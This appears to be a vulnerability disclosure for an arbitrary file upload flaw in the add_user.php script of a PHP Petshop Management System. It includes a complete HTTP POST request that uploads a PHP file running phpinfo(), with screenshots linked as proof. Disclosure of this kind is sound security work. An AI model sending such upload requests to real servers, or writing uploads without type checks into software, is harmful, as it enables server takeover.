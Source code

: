 petshop-management-system add_user.php any file upload

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

Software Link: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

CMSName: petshop-management-system

Tested on: Windows, Apache ,Mysql

Description

The reason for the arbitrary file upload vulnerability is that the website application allows users to upload any type of file without restrictions in the add_user.php code, resulting in arbitrary file uploads.

  Payload used:
  
  POST /Petshop_Management_System/controllers/add_user.php HTTP/1.1
  Host: 192.168.2.110
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
  Accept: */*
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Referer: http://192.168.2.110/Petshop_Management_System/
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysOcLQ1YbU3iam8cM
  Content-Length: 175
  
  ------WebKitFormBoundarysOcLQ1YbU3iam8cM
  Content-Disposition: form-data; name="avatar";filename="test2.php"
  
  <?php phpinfo();?>
  ------WebKitFormBoundarysOcLQ1YbU3iam8cM--

Proof of Concept
![image](https://github.com/user-attachments/assets/030e6cd8-7564-4865-9891-7c172f03606b)

![image](https://github.com/user-attachments/assets/83e134d6-6238-4414-bd7c-17311ddfc599)

![image](https://github.com/user-attachments/assets/4fb3e8db-6758-43b2-b227-b55909c30c77)



